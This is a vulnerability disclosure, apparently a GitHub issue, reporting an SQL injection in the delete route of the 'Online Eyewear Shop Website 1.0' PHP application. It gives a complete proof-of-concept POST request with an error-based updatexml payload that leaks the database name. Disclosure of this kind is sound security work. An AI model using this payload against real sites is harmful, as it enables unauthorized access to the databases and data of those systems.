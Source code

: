 ## Online Eyewear Shop Website has a front-end SQL injection vulnerability

## Affected version: 
Online Eyewear Shop Website - 1.0

## Software:
https://www.sourcecodester.com/php/16089/online-eyewear-shop-website-using-php-and-mysql-free-download.html

## Vulnerability File:
/oews/classes/Users.php?f=delete

## Description:
The online eyewear store website 1.0 has a SQL injection attack in the id parameter in the route /oews/classes/Users.php?f=delete. Attackers can exploit this vulnerability to directly obtain sensitive information from the server.

Status: CRITICAL

POC
```
POST /oews/classes/Users.php?f=delete HTTP/1.1
Host: localhost
Content-Length: 53
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/oews/admin/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=p65p1sp36htfqevfnhij1jvtie
Connection: close

id=1 and updatexml(1,concat(0x7e,(database())),3)-- q
```

Get the database name directly through the error report: oews_db

![CleanShot 2025-03-21 at 16 43 28@2x](https://github.com/user-attachments/assets/8b34f784-8496-44d7-b9f6-ff5b953b2803)


## Code Analysis
The id parameter is controllable and directly introduced into the SQL statement, causing a SQL injection vulnerability.
![CleanShot 2025-03-21 at 16 43 51@2x](https://github.com/user-attachments/assets/0fac71fe-9583-4967-9740-8ac0853d5c7a)


